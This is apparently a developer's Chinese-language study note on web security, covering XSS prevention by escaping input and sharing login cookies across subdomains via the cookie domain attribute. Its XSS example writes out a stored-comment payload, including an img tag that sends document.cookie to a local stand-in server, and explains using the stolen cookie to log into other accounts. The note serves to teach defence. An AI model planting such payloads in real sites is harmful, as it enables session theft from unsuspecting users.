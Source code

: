 <!--
 * @Date: 2019-11-26 14:47:27
 * @LastEditors: PoloHuang
 * @LastEditTime: 2020-09-16 11:34:38
-->
## 安全防范知识点
```js
1.XSS
简单点来说，就是攻击者想尽一切办法将可以执行的代码注入到网页中
解决办法：对于用户的输入应该是永远不信任的。最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义
https://blog.csdn.net/m0_37631322/article/details/81346335

实例操作：
一个评论功能，通过提交一条带有script脚本的评论，这条评论可以是<script>alert(1)</script>
这种，如果提交上去了那么每次进入页面的用户都会弹出这个弹窗。也可以插入一张图片<img src="http://127.0.0.1:3000/?content=" +document.cookie> 只要用户进入我们就可以在我们的服务器获取到该用户的用户信息cookie，这样我们通过editthiscookie插件就可以登录别人的帐号了
2.CSRF

```

## cookie的domain属性
www.baidu.com已经登录，如何让tieba.baidu.com直接登录: 可以设置cookie的domain为.baidu.com
```
https://blog.csdn.net/longgege001/article/details/81274088
```